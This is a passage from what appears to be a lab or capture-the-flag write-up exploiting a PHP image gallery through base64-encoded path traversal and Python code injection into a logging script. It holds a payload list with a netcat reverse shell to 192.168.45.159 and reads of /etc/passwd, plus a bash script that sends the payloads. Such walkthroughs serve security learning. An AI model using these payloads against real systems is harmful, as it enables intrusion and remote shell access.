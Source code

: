 ```
    exit();
```
That block code contain the `$imagefile` that came from our query `$imagefile = base64_decode($_GET['f']);` at the beginning of the code, that image file contain the string of the image in base64, if the inserted value is decoded as `etc` or `dev` or `usr` or `home`, then it should block by another function that came above that section, then after it block the variable `$logfile` contain the timestamp, the variable `$fp` are used for open the `logfile` and write back to it the `$imagefile` value, then it run some python code named `ids_strong_bvb.py` which get the `$logfile` back and redirect the output to `/tmp/output` file. this is mean that we should be able to inject code by adding some value like `etc` to the `f=` value on the url (base64), then it should block that one since it is `etc` and pass the inject code to the `$logfile` which use later with that python code. If we succeeded the `/tmp/output` should contain the output from the injected command.
In my case I have used the following bash code, that should execute each code in the payload.txt. My payload is:
```
../etc/passwd
../etc/passwd' and __import__('os').system("uname -a") and '
../../../../../tmp/output
../../../../tmp/output
../etc/passwd' and __import__('os').system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.159 443 >/tmp/f") and '
../../../../../tmp/output
../../../../tmp/output
../../../tmp/output
../../tmp/output
../tmp/output
```
Please note that this payload is python based since the `ids_strong_bvb.py` should execute it. My original bash code is as follow
```bash
#!/bin/bash
url=$1
wordlist=$2
loop=0
[ $# != 2 ] && { echo "Usage: $0 url wordlist"; exit 1; }
checksum="d41d8cd98f00b204e9800998ecf8427e"
while read file;
do
	loop=`expr $loop + 1`
	echo "[+] Loop number: $loop"
	echo "[+] Test file: $file"
	echo "[+] GET reqest: $url?t=$(date +%s)&f=$(echo -n "$file"| base64 -w 0)"
	echo "[+] Script run: python /opt/ids_strong_bvb.py </var/log/soc/'.$file.' >/tmp/output 2>&1";
	echo "[+] Base64: $(echo -n $file| base64 -w 0)"
	curl -s "$url?t=$(date +%s)&f=$(echo -n "$file"| base64 -w 0)" -o "$loop.txt";
	echo "-------------time: $(date +%s) ---------"
	echo "------------read-file-$loop------------"
	cat ./"$loop.txt"
	filesum=$(cat "$loop.txt" | md5sum|awk '{print $1}')
	if [[ "$checksum" == "$filesum" ]];
	then
		echo "[+] Found new file: $loop.txt"
		echo "[+] URL: $url?t=$(date +%s)&f=$(echo -n $file| base64)"
		cat $loop.txt
		break
	fi
done < $wordlist
```
You can see that my code do some checksum with the value `d41d8cd98f00b204e9800998ecf8427e` which is the value of empty file. Then run it with the following command.
```
./lfi_base.sh http://192.168.166.22/image_gallery.php ./payload.txt
```